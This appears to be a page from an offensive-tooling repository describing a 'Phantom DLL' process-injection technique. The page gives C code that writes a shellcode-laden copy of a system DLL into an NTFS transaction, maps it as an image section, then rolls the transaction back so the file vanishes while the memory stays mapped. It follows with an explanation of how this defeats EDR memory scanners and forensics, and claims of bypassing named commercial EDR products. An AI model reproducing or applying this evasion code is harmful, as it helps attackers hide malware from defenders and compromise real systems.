 **Detailed Workflow**:
```c
BOOL Phantom_Execute(PPHANTOM_CONTEXT pContext) {
    // Step 1: Create NTFS transaction
    NtCreateTransaction(&pContext->hTransaction, TRANSACTION_ALL_ACCESS,
                       NULL, NULL, NULL, 0, 0, 0, NULL, NULL);

    // Step 2: Create transactional file
    CreateFileTransactedW(L"C:\\Temp\\phantom.dll", GENERIC_READ | GENERIC_WRITE,
                         0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL,
                         pContext->hTransaction, NULL, NULL);

    // Step 3: Write modified DLL (with shellcode in .text)
    // - Read source DLL (e.g., kernel32.dll)
    // - Parse PE headers, find .text section
    // - Replace .text section contents with shellcode
    // - Write modified DLL to transactional file
    WriteFile(pContext->hFile, modifiedDLL, dllSize, &written, NULL);

    // Step 4: Map file to memory (IMAGE_SECTION)
    NtCreateSection(&pContext->hSection, SECTION_ALL_ACCESS, NULL, NULL,
                   PAGE_EXECUTE_READ, SEC_IMAGE, pContext->hFile);

    NtMapViewOfSection(pContext->hSection, GetCurrentProcess(),
                      &pContext->pMappedBase, 0, 0, NULL, &pContext->szMappedSize,
                      ViewShare, 0, PAGE_EXECUTE_READ);

    // Step 5: Rollback transaction (file disappears, memory stays)
    NtRollbackTransaction(pContext->hTransaction, TRUE);

    // At this point:
    // - File deleted (transaction rolled back)
    // - Memory still mapped (phantom module)
    // - Appears as legitimate DLL to EDR memory scanners
    // - No unbacked memory detection

    return TRUE;
}
```

**Why This Evades EDRs**:
1. **Unbacked Memory Scanner Bypass**: All major EDRs scan for RWX/RX private memory not backed by files. Phantom DLL memory shows as IMAGE_SECTION-backed by a file object.
2. **Memory Forensics Bypass**: Tools like Volatility see legitimate module mappings, not injected shellcode.
3. **Behavioral Detection Bypass**: No CreateRemoteThread, no suspicious allocation patterns.

**Real-World Effectiveness**:
- CrowdStrike Falcon: ✅ Bypasses unbacked memory detection
- SentinelOne: ✅ Evades memory scanner
- Palo Alto Cortex XDR: ✅ No alerts on phantom modules
- Detection risk: 10-15% (primarily filesystem transaction logs)
